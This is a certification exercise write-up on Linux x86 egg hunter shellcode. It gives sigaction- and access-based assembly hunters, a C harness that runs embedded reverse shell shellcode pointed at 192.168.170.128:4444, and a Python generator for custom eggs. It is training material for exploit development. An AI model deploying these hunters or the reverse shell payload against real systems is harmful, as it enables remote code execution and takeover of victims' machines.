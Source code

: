 ```yaml
---
title: SLAE Exercise 3
tags: SLAE
key: 20190613
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Three:

1. Study about the egg hunter shellcode
2. Create a working demo of the egg hunter
3. Should be configurable for different payload

What exactly is an egg hunter? When buffer overflow happens, the ESP may not always have enough amount of memory space to fit our shellcode and let use to use JMP ESP to execute it. If this happens, an egg hunter will be handy. We can just include our shellcode in some where else of the memory. Then, the egg hunter code iterate through the memory address and try to locate our egg, which is appended in front of our shellcode. If an egg is found, it will jmp to the egg and execute the rest of the shellcode. 

To make it simple, I try to write down the logic in python.
```python
count = 0
egg = 0x746f6f72 #root in reverse order

for address in range(0xffffffff):
    if address == 0x726f6f74:
        count +=1
    if count == 2:
        jmp_to_shellcode()
    address += 0x1
```

According to <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf> there are actually a few implementation of egg hunters. Here lets try to understand them one by one.
While the egg hunter travels along the memory address it may seems that all it need is to examine each address one by one. However, the truth is that there are invalid memory address which will cause your egg hunter get a segmentation fault or other runtime error in the program. So, we will need some method to test the address we are going to compare. If it is valid, we will proceed, it not, we will ignore it.

In general, there are system call that can be use to valid an address, sigaction(0x43) and access(0x21).
Below is a proof of concept of egghunter using sigaction

```
global _start

section .text

_start:

setup:
	or cx, 0xfff		;Increase by page_size
next_address:
	inc ecx
	push byte 0x43		;Systemcall for sigation
	pop eax
	int 0x80
	cmp al, 0xf2		;f2 = invalid address
	jz setup
	
	mov eax, 0x726F6F74	;EGG = root = 726F6F74
	mov edi, ecx		;move address to edi to examine
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	jmp edi			;execute shellcode
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/sigaction-egghunter.nasm>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-1.JPG"/>

ECX is being set to end with fff every time we cannot validate the address (0xfff > 0x1000 > 0x1fff > 0x2000). This implementation is to increase ECX by page size. If the address inside a page size is invalid, the rest should be invalid too. As such, we can increase the address by page size and save sometime while searching.
Then, EAX is set to 0x43 so that we can call sigaction to help us validate the address.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-2.JPG"/>

In case the address is invalid, EAX will be set to 0xfffffff2 and by checking is al equals to f2 we know that is the address valid or not. If not, we will jump back to setup and start again.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-3.JPG"/>

Once a valid address is found, we will start the second part of our shellcode. We will first mov the value of our egg, "root" to eax. Then, the current address to be test will be moved from ecx to edi for testing. We will then use scasd to compare both EAX and value inside the address stored in EDI. 

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-4.JPG"/>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-5.JPG"/>

If two double word are not the same, we will increase ecx and test again. If yes, scasd will check the next double word to verify that this is indeed our egg. Notice that scasd, by default, will increase the address in EDI by 4 after it checked the string. So that is no need for us to increase the address value of EDI and also answered why we can just jmp EDI when the egg is found.

```
global _start

section .text

_start:
	xor edx,edx
setup:
	or dx,0xfff
next_address:
	inc edx
	lea ebx,[edx+0x4]	#Actually an optimization
	push byte +0x21
	pop eax
	int 0x80
	cmp al, 0xf2
	jz setup
	mov eax, 0x746F6F72
	mov edi, edx
	scasd
	jnz next_address
	scasd
	jnz next_address
	jmp edi	
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/access-re-egghunter.nasm>

The implementation of the access method is mostly the same as the sigaction while the access systemcall need more arguments. EBX will be needed to store the address of the string being validate. However, from the code, it seems that EBX is storing the value of EDX + 4. The reason of this is same as the page size implementation. If the value of ebx + 4 is invalid, there is no way that edx will be valid. As such according to the paper, an optimization to the shellcode.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-6.JPG"/>

To really test the egg hunter, I will use our reverse shell shellcode for testing.
The following sample will be using the sigaction poc
```c
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x74\x6f\x6f\x72\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

unsigned char egg[] = \         //reverse shell ip=192.168.170.128 port = 4444
"\x74\x6F\x6F\x72" //EGG, root
"\x74\x6F\x6F\x72"
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xdb\xb3\x03\xb2\x80\xc1\xe2\x08\xb2\xaa\xc1\xe2\x08\xb2\xa8\xc1\xe2\x08\xb2\xc0\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x87\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void main(){
 printf("Length of Egg Hunter:  %d\n", strlen(egg_hunter));
 printf("Length of Shellcode:  %d\n", strlen(egg));
 int (*ret)() = (int(*)())egg_hunter;
 ret();
}
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/testEgg.c>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>

### Python egg hunter generator
At last, below is python script to generate an Egg hunter generator with your custom egg.
```python
import binascii
import sys
import os
import getopt

def usage():
	print('getEgghunter.py -e egg | -h help')	

def main(argv):
	port = 0
	ip = ''
	hexPort = ''
	hexIP = ''
	if(len(sys.argv) < 2):
		usage()
		sys.exit()
	try:
		opts,args = getopt.getopt(sys.argv[1:], "he:", ["help", "egg="])
	except getopt.GetoptError:
		usage()
		sys.exit(2)
	for opt, arg in opts:
		if opt in ("-h", "--help"):
			usage()
			sys.exit()
		elif opt in ("-e", "--egg"):
			egg = arg
			print('Egg: ' + egg)
			if len(egg) != 4:
				print('Invalid Egg, length must be 4 characters')
				sys.exit(2)
	hexEgg = ''
	for char in egg:
		hexEgg = ('\\x' + bytes.decode(binascii.hexlify(str.encode(char)))) + hexEgg

	Shellcode = "\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xf1\\xb8"
	Shellcode +=hexEgg 
	Shellcode +="\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7"
	
	print('Egghunter: ' + Shellcode)
	print('Paste this in front of your shellcode')
	print('"' + hexEgg + '"')
	print('"' + hexEgg + '"')

if __name__ == '__main__':
	main(sys.argv[1:])
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/genEgghunter.py>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-8.JPG"/>